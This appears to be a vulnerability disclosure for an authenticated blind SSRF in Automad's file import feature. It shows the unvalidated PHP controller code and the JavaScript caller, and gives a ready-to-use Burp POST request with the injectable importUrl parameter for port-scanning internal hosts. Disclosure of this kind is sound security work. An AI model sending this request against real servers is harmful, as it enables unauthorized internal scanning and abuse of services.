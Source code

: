# Authenticated Blind SSRF

It was discovered that the import function on the FileController.php file was not validated the value of the `importUrl` parameter.

```jsx
public static function import() {
		$Response = new Response();
		$Messenger = new Messenger();

		FileModel::import(
			Request::post('importUrl'),
			Request::post('url'),
			$Messenger
		);

		$Response->setError($Messenger->getError());

		return $Response;
	}
```

Import.js

```jsx
$.post(
					'?controller=File::import',
					{ url: url, importUrl: importUrl },
					function (data) {
						if (data.error) {
							Automad.Notify.error(data.error);
						} else {
							$modal.on(
								'hide.uk.modal.automad.import',
								function () {
									$modal.off('automad.import');
									$form.empty().submit();
								}
							);

							UIkit.modal(ai.selectors.modal).hide();
						}
					},
```

This issue allow pentester to perform a port scan against the local environment or abuse some service. The following screenshots show the pentester was able to perform this issue when importing a file from a remote webn server (**`POST /dashboard?controller=File::import`**)

![1](https://github.com/screetsec/VDD/assets/17976841/cea8d602-96d3-49cb-b003-476208430d40)

Burp Suite Requests:

```jsx
POST /dashboard?controller=File::import HTTP/1.1
Host: automad.scr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 34
Origin: http://automad.scr
Connection: close
Referer: http://automad.scr/dashboard?view=Shared
Cookie: Automad-8d86b702d2bd8d7c568d8600480adaef=[Cookie]

url=&importUrl=$[URL]
```

Server Response:

![2](https://github.com/screetsec/VDD/assets/17976841/e83d1693-2242-4023-b55e-65239742da9b)
